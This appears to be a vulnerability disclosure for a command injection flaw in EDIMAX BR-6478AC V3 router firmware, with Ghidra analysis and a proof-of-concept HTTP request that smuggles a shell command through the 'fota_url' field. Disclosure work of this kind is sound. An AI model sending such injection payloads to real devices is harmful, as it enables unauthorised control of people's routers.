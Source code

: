 # EDIMAX RCE
**description**: a remote-command-execution vulnerability was found on EDIMAX BR-6478AC V3 via the FUN_00416e24 function and fota_url in /bin/boa
## Firmware
**brand**:edimax   

**product**:AC1200 Wave 2 Dual-Band Gigabit Router   

**version**:BR-6478AC V3 1.0.15  

The firmware can be downloaded from this website[1] and using FirmAE to simulate the router environment.   
The command is 
```
sudo ./run.sh -d edimax ../Desktop/FIRWARE/BR-6478AC_v3_1.0.15.bin 
```
The result of the simulation is as follows: 
![alt text](images/simulation.png )
using ghidra we can know the action is formLtefotaUpgradeQuectel
![alt text](images/action.png)
and the relate web page is as follows and url of page is http://192.168.2.1/fota_quectel.htm:
![alt text](images/web.png)

## analyze
Using ghidra we can know that the post parameter "fota_url" will be sprintf as the first input parameter which will be executed
![alt text](images/analyze.png)
The details of the function as follows:

**addr**:00416ef8  
**function**: FUN_00416e24  
**parameter**:fota_url


# poc
Burp Suite change the packet as follows
```
POST /boafrm/formLtefotaUpgradeQuectel HTTP/1.1

Host: 192.168.2.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 86

Origin: http://192.168.2.1

Connection: close

Referer: http://192.168.2.1/fota_quectel.htm

Cookie: webuicookie=16041635651804289383

Upgrade-Insecure-Requests: 1



submit-url=%2Ffota_quectel.htm&fota_url=https%3A%2F%2F123\necho 123 > /tmp/poc_rce.txt
```
the result of POC is as follows, you can find the /tmp/poc_rce.txt was created after poc
![alt text](images/attack.png)

[1]:https://www.edimax.com/edimax/merchandise/merchandise_detail/data/edimax/global/home_legacy_wireless_routers/br-6478ac_v3
